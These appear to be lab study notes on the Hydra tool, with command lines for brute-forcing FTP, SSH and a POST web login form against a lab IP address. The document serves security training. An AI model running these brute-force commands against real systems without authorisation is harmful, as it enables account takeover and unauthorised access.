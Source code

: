# Hydra

# **Hydra Commands**

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://10.10.64.167`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

## **SSH**

`hydra -l <username> -P <full path to pass> 10.10.64.167 -t 4 ssh`

![https://i.imgur.com/D71vkKM.png](https://i.imgur.com/D71vkKM.png)

[**Post Web Form**](Hydra%20ac0f6ad048004d19bbd8d53ab23eea94/Post%20Web%20Form%20f6e3e59f3af74e72980d131c0885bc3e.md)

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> 10.10.64.167 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![Hydra options](options.png)